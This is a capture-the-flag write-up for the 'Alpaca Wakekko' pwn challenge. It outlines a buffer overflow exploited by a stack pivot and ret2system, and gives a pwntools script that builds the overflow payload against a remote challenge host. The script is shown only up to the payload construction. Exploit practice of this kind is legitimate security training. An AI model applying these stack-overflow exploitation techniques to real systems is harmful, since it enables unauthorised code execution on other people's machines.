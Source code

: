 ## Alpaca Wakekko
<primary-label ref="pwn"/>

[](https://alpacahack.com/ctfs/seccon-13-finals-booth/challenges/alpaca-wakekko)

* solution
  * buffer overflow vulnerability
  * stack pivot into writable section -> ret2system

```py
from pwn import *
import sys

e = ELF("challenge",checksec=False)
libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6",checksec=False)
ld = ELF("/usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2",checksec=False)

nc = "nc 34.170.146.252 18911"
HOST = nc.split(" ")[1]
PORT = int(nc.split(" ")[2])

dbg = 1
g_script = """
    set max-visualize-chunk-size 0x300
"""

context.binary = e
if len(sys.argv) > 1:
    io = remote(host=HOST,port=PORT)
else:
    io = e.process()
    if dbg:
        gdb.attach(io,g_script)

s   = lambda b: io.send(b)
sa  = lambda a,b: io.sendafter(a,b)
sl  = lambda b: io.sendline(b)
sla = lambda a,b: io.sendlineafter(a,b)
r   = lambda : io.recv()
ru  = lambda b:io.recvuntil(b)
rl  = lambda : io.recvline()
pu32= lambda b : u32(b.ljust(4,b"\0"))
pu64= lambda b : u64(b.ljust(8,b"\0"))
hlog= lambda i : print(f"[*]{hex(i)}")
shell = lambda : io.interactive()
payload = b""
def pay64(adr:int):global payload;payload = p64(adr)
def add64(adr:int):global payload;payload+= p64(adr)
def paybyte(data:bytes):global payload;payload = data
def addbyte(data:bytes):global payload;payload+= data

writable = 0x0000000000404a00
alpaca = 0x0402004


paybyte(b"alpaca")
payload = payload.ljust(0x18,b"\0")
add64(alpaca)
add64(alpaca)
add64(writable)
add64(writable)
#add64(e.plt["system"])
add64(0x4012da) #gets() @ wakekko

```